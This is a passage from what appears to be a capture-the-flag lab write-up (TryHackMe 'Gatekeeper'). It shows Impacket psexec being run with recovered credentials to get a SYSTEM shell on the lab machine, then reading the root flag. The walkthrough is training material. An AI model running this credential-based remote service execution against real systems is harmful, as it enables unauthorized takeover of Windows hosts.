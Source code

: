```text
kali@kali:~/thm/gatekeeper$ python3 /usr/share/doc/python3-impacket/examples/psexec.py gatekeeper/mayor:<<HIDDEN>>@10.10.245.39 cmd.exe
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.245.39.....
[*] Found writable share ADMIN$
[*] Uploading file VQGNrSNN.exe
[*] Opening SVCManager on 10.10.245.39.....
[*] Creating service gWHz on 10.10.245.39.....
[*] Starting service gWHz.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

## Root Flag

It worked! Who are we:

```text
c:\Users\mayor\Desktop>whoami
nt authority\system
```

 Made it. Let's grab the root flag:

```text
C:\Windows\system32>cd c:\users\mayor\desktop
c:\Users\mayor\Desktop>dir

 Directory of c:\Users\mayor\Desktop
05/14/2020  09:21 PM                27 root.txt.txt
               1 File(s)             27 bytes
               2 Dir(s)  16,283,815,936 bytes free

c:\Users\mayor\Desktop>type root.txt.txt
<<HIDDEN>>
```

All done. See you next time.
